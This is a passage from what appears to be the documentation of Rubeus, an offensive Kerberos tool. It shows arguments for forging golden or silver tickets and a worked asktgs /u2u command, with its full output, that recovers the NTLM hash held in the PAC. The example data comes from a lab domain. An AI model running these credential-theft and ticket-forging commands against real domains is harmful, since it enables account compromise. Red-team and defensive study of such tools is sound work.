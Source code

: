 
    [*] Printing argument list for use with Rubeus' 'golden' or 'silver' commands:

    /user:harmj0y /id:1106 /pgid:513 /logoncount:8 /badpwdcount:0 /sid:S-1-5-21-3237111427-1607930709-3979055039 /netbios:RUBEUS /displayname:"Harm J0y" /groups:513 /sids:S-1-18-1 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1d /dc:PDC1.RUBEUS.GHOSTPACK.LOCAL /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

Using PKINIT to request a TGT and then requesting a user-to-user service ticket to gain access to the NTLM hash stored within the PAC (manually performing the `/getcredentials` flag to **asktgt**):

    C:\Rubeus>Rubeus.exe asktgs /u2u /asrepkey:CC9D16AB01D1BD0EF9EBD53C8AD536D9 /ticket:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA== /tgs:doIF9DCCBfCgAwIBBaED...(snip)...ay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building User-to-User TGS-REQ request for: 'harmj0y'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIFxTCCBcGgAwIBBaEDAgEWooIE1DCCBNBhggTMMIIEyKADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          RVVTLkdIT1NUUEFDSy5MT0NBTKkUMBKgAwIBAaELMAkbB2hhcm1qMHk=

      ServiceName              :  harmj0y
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  19/07/2021 23:01:05
      EndTime                  :  20/07/2021 09:00:38
      RenewTill                :  26/07/2021 23:00:38
      Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  Qm9zdwFIINSHAAmqaviuEw==
      ASREP (key)              :  CC9D16AB01D1BD0EF9EBD53C8AD536D9
      Decrypted PAC            :
        LogonInfo              :
          LogonTime            : 19/07/2021 22:59:21
          LogoffTime           :
          KickOffTime          :
          PasswordLastSet      : 14/07/2021 02:07:12
          PasswordCanChange    : 15/07/2021 02:07:12
          PasswordMustChange   :
          EffectiveName        : harmj0y
          FullName             : Harm J0y
          LogonScript          :
          ProfilePath          :
          HomeDirectory        :
          HomeDirectoryDrive   :
          LogonCount           : 7
          BadPasswordCount     : 0
          UserId               : 1106
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS